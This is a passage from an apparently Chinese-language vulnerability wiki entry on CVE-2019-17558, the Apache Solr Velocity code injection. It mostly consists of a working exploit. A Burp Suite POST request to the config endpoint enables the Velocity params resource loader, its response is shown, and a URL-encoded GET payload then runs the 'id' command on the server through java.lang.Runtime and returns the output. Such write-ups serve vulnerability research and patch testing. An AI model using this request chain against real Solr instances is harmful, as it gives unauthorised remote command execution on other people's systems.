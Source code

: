         }
      }
    }

**利用Burpsuite 发包 ,开启params.resource.loader.enabled**

> params.resource.loader.enabled 默认是false

由于我们修改的atom目录下的配置文件，所以我们只能拿这个存在配置缺陷的接口来攻击

    http://www.0-sec.org:8983/solr/atom/config

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-17558)ApacheSolr代码注入漏洞/media/rId30.jpg)

**BurpSuite request**

    POST /solr/atom/config HTTP/1.1
    Host: www.0-sec.org:8983
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:55.0) Gecko/20100101 Firefox/55.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    Content-Length: 259
    Connection: close
    Upgrade-Insecure-Requests: 1

    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }

**BurpSuite response**

    HTTP/1.1 200 OK
    Connection: close
    Content-Type: application/json;charset=utf-8
    Content-Length: 149

    {
      "responseHeader":{
        "status":0,
        "QTime":554},
      "WARNING":"This response format is experimental.  It is likely to change in the future."}

**开启后，直接Get 访问（带入表达式）进行 远程代码命令执行**

    http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
